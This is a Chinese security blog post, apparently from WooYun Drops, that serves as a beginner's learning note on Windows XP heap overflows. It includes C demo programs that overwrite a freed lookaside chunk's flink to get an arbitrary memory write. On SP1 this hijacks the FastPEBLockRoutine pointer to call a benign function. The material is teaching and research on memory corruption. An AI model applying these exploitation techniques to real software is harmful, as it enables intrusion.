





# 堆溢出学习笔记

2014/05/02 14:48 | [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 概述

* * *

本文从程序实例出发，展示了 XP SP1 下的堆溢出+代码执行，XP SP3 下的堆溢出+内存任意写，主要面向{已经掌握缓冲区溢出原理，希望进一步了解堆溢出原理的初学者}、{就是想找个堆溢出例子跑一遍的安全爱好者}以及{跑不通各种堆溢出书籍示例代码、非得跑通代码才看的进去书的搜索者}

本笔记参考自：[`net-ninja.net/article/2011/Sep/03/heap-overflows-for-humans-102/`](http://net-ninja.net/article/2011/Sep/03/heap-overflows-for-humans-102/)

代码有较多改动，终于跑通了，并且试着简单地利用了一下。

按照代码阅读者视角 整理了讲解思路。

笔记只供初学者参考，并非严肃探讨堆溢出细节问题，若有不当之处恳请各位指正。

## 0x01 测试代码环境

* * *

```
虚拟机：  VirtualBox
操作系统:  Windows XP  sp1
编译器：   VC++ 6.0
调试工具:  看雪 OllyICE 
```

其中，Windows XP 只能是 sp1，因为 sp2 之后需要绕过其溢出保护机制 会使文章更加复杂。

如果您想要寻找 xp sp3 下的内存任意写实例，请跳转 0x09。

## 0x02 测试代码步骤

* * *

安装 Windows XP sp1 注意，网上有很多 sp2 不知什么目的写成是 sp1，下面是真正的 sp1 [`pan.baidu.com/share/link?shareid=371613660&uk=1865555701&fid=2361791550`](http://pan.baidu.com/share/link?shareid=371613660&uk=1865555701&fid=2361791550)

下载 VC++ 6.0 绿色版 [`pan.baidu.com/s/1kTLqYnd`](http://pan.baidu.com/s/1kTLqYnd) 解压后运行 sin.bat

下载代码工程 [`pan.baidu.com/s/1kT5HRNp`](http://pan.baidu.com/s/1kT5HRNp)

或者拷贝文中代码 自己新建工程

```
/*
        Overwriting a chunk on the lookaside example
*/
#include <stdio.h>
#include <windows.h>

void print()
{
    printf("\nHello\n");
}

int main(int argc,char *argv[])
{
        char *a,*b,*c;
        long *hHeap;
        char buf[10];

        printf("----------------------------\n");
        printf("Overwrite a chunk on the lookaside\n");
        printf("Heap demonstration\n");
        printf("----------------------------\n");

        // create the heap
        hHeap = HeapCreate(0x00040000,0,0);
        printf("\n(+) Creating a heap at: 0x00%xh\n",hHeap);
        printf("(+) Allocating chunk A\n");

        // allocate the first chunk of size N (<0x3F8 bytes)
        a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk B\n");

        // allocate the second chunk of size N (<0x3F8 bytes)
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+) Chunk B=0x00%x\n",a,b);
        printf("(+) Freeing chunk B to the lookaside\n");

        // Freeing of chunk B: the chunk gets referenced to the lookaside list
        HeapFree(hHeap,0,b);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Now overflow chunk A:\n");

        // The overflow occurs in chunk A: we can manipulate chunk B's Flink
        // PEB lock routine for testing purposes
        // 16 bytes for size, 8 bytes for header and 4 bytes for the flink

        strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x20\xf0\xfd\x7f");
        // strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBBDDDD");

        //gets(a);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Allocating chunk B\n");

        // A chunk of block size N is allocated (C). Our fake pointer is returned
        // from the lookaside list.
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk C\n");

        // set software bp
        //    __asm__("int $0x3");

        // A second chunk of size N is allocated: our fake pointer is returned
        c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

        // A copy operation from a controlled input to this buffer occurs: these
        // bytes are written to our chosen location
        // insert shellcode here

        printf("%x",print);
        memcpy(c,"\x00\x10\x40\x00",4);
        // set software bp
        //_asm int 0x3;

        exit(0);
 }

```

编译运行，运气好的直接就能跑，不过一般会如下图：



显示为：401005（0x00401005），然后修改代码中：

```
memcpy(c,"\x00\x10\x40\x00",4);

```

改成

```
memcpy(c,"\x05\x10\x40\x00",4);     

```

重新编译运行即可，成功后如下图：



然后就可以开始正文了。

## 0x03 溢出的位置

* * *

之前我们给 a 从堆里分配了 0x10 即 16 个字节的空间

```
a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

```

因此

```
strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x20\xf0\xfd\x7f");

```

发生了溢出。

## 0x04 溢出前发生了什么

* * *

```
HeapFree(hHeap,0,b);

```

把 b free 掉，然后 b 就会被放到 lookaside list 备用。

## 0x05 溢出后覆盖了什么

* * *

覆盖了 b 的 freelist chunk 结构。

（AAAABBBB 覆盖了 Headers，然后\x20\xf0\xfd\x7f 覆盖的是 flink）



## 0x06 溢出后发生了什么

* * *

```
 printf("(+) Allocating chunk B\n");

// A chunk of block size N is allocated (C). Our fake pointer is returned
// from the lookaside list.
 b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
 printf("(+) Allocating chunk C\n");

// set software bp
//    __asm__("int $0x3");

// A second chunk of size N is allocated: our fake pointer is returned
c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

```

先是从 lookaside 取回 b （flink 已经被覆盖了），然后再去分配 c ，于是 c 被分配到了 b 的 flink 即我们的虚假指针处，之后就可以实现内存任意写了（写进 c 的内容就是写进虚假指针）

## 0x07 虚假指针指向什么地方

* * *

0x7FFDF000 指向 FastPEBLockRoutine() 地址指针 （XP SP1） 我们覆盖这个地址，这样一旦触发异常，就会去 call 这个地址。

然后我们把 print 函数地址写进去，于是就会去执行 print 函数（显示 Hello，Hello 上面打印的是 print 函数的地址）

## 0x08 为什么非要 XP SP1 才能运行以上代码

* * *

因为 SP1 里面 FastPEBLockRoutine()的地址是固定的，而 SP2 以后版本会随机

## 0x09 我就是要在 XP SP3 下跑代码，我不想下载 SP1

* * *

那就用如下代码吧，不过就没法 FastPEBLockRoutine()随意 call 了

```
/*
        Overwriting a chunk on the lookaside example
*/
#include <stdio.h>
#include <windows.h>

int main(int argc,char *argv[])
{
        char str[]="\nHello123456789213456789\n";

        char *a,*b,*c;
        long *hHeap;
        char buf[10];

        printf("----------------------------\n");
        printf("Overwrite a chunk on the lookaside\n");
        printf("Heap demonstration\n");
        printf("----------------------------\n");

        // create the heap
        hHeap = HeapCreate(0x00040000,0,0);
        printf("\n(+) Creating a heap at: 0x00%xh\n",hHeap);
        printf("(+) Allocating chunk A\n");

        // allocate the first chunk of size N (<0x3F8 bytes)
        a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk B\n");

        // allocate the second chunk of size N (<0x3F8 bytes)
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+) Chunk B=0x00%x\n",a,b);
        printf("(+) Freeing chunk B to the lookaside\n");

        // Freeing of chunk B: the chunk gets referenced to the lookaside list
        HeapFree(hHeap,0,b);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Now overflow chunk A:\n");

        // The overflow occurs in chunk A: we can manipulate chunk B's Flink
        // PEB lock routine for testing purposes
        // 16 bytes for size, 8 bytes for header and 4 bytes for the flink

        printf("%x\n",str);
        printf(str);
        memcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x64\xff\x12\x00",28);
        // strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBBDDDD");0x71ac4050

        //gets(a);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Allocating chunk B\n");

        // A chunk of block size N is allocated (C). Our fake pointer is returned
        // from the lookaside list.
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk C\n");

        // set software bp
        //    __asm__("int $0x3");

        // A second chunk of size N is allocated: our fake pointer is returned
        c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

        // A copy operation from a controlled input to this buffer occurs: these
        // bytes are written to our chosen location
        // insert shellcode here
        strcpy(c,"AAAAAAAAAAAA\n");
        printf(str);
        // set software bp
        //_asm int 0x3;

        exit(0);
 }

```

也许一遍就能跑通，但是一般来说还是像下面一样



老规矩，自己改代码（图中 12ff64）0x0012ff64

```
memcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x64\xff\x12\x00",28);

```

注意里面有\x00，所以我换用 memcpy 了，成功后如下图



那么，这段代码展示的实际上是内存任意写（没有 call anycode 的利用），只是把任意内容写到了 str 里面，即 free(b)，再用 str 地址覆盖 b 的 flink，然后取回 b，然后分配 c，c 被分配到了 str 地址，然后向 c 里面写 AAAAAAA，然后就写进 str 里面了。

## 0x0A 结语

* * *

个人观点：尽管看到这里读者仍然只是似懂非懂地{大致了解堆溢出的原理和过程}，但是起码有了一个基本的概念，对以后深入研究其机理 奠定了兴趣基础，并且对于{只是好奇的爱好者}来说，涉猎这些也就够了。

建议有兴趣的朋友们去看看 heap-overflows-for-humans-102 原文，里面有很多基础概念的讲解，本笔记仅为学习时的记录，并非严肃翻译原文。

## 0x0B reference

* * *

[`net-ninja.net/article/2011/Sep/03/heap-overflows-for-humans-102/`](http://net-ninja.net/article/2011/Sep/03/heap-overflows-for-humans-102/)

注：本文代码基于此文章修改，改动较大。

《C 和 C++安全编码》

版权声明：未经授权禁止转载 [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [使用 netcat 进行反弹链接的 shellcode](http://drops.wooyun.org/tips/1376)
*   [64 位 Linux 下的栈溢出](http://drops.wooyun.org/tips/2288)
*   [Winrar4.x 的文件欺骗漏洞利用脚本](http://drops.wooyun.org/tips/1346)
*   [CVE2014-6287 分析报告](http://drops.wooyun.org/papers/3091)
*   [MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造](http://drops.wooyun.org/papers/4621)
*   [逆向基础（五）](http://drops.wooyun.org/tips/2112)